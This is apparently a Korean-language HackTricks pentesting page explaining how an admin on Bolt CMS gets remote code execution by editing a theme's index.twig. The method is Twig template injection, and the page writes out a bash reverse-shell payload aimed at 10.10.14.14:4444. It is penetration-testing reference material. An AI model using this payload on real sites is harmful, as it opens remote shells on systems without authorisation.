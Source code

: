 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

관리자로 로그인한 후 (/bot로 이동하여 로그인 프롬프트에 접근), Bolt CMS에서 RCE를 얻을 수 있습니다:

- `Configuration` -> `View Configuration` -> `Main Configuration`을 선택하거나 URL 경로 `/bolt/file-edit/config?file=/bolt/config.yaml`로 이동합니다.
- 테마의 값을 확인합니다.

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- `File management` -> `View & edit templates`를 선택합니다.
- 이전 단계에서 찾은 테마 기본값(`base-2021`인 경우)을 선택하고 `index.twig`를 선택합니다.
- 제 경우에는 URL 경로 /bolt/file-edit/themes?file=/base-2021/index.twig에 있습니다.
- 이 파일에 [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php)를 통해 페이로드를 설정합니다, 예: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- 변경 사항을 저장합니다.

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- `Maintenance` -> `Clear the cache`에서 캐시를 지웁니다.
- 일반 사용자로 다시 페이지에 접근하면 페이로드가 실행되어야 합니다.

{{#include ../../banners/hacktricks-training.md}}
